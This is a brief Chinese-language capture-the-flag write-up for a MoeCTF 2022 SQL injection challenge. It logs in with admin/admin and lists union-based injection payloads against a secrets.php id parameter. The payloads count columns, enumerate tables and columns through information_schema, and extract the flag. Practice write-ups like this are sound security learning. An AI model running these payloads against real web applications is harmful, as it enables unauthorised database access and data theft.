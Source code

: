 ## Nssctf [MoeCTF 2022]Sqlmap_boy

![image-20240901165733983](https://gitee.com/bx33661/image/raw/master/path/image-20240901165733983.png)

我们采用`admin/admin`进入，发现`?id=`的注入口

```
secrets.php?id=1'order by 1,2,3--+

secrets.php?id=-1'union select 1,2,database()--+

secrets.php?id=-1' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema='moectf'--+

secrets.php?id=-1' union select 1,2,group_concat(column_name)from information_schema.columns where table_name='flag'--+

secrets.php?id=-1' union select 1,2,group_concat(flAg)from moectf.flag--+
```

最后得到flag

![image-20240901170731614](https://gitee.com/bx33661/image/raw/master/path/image-20240901170731614.png)


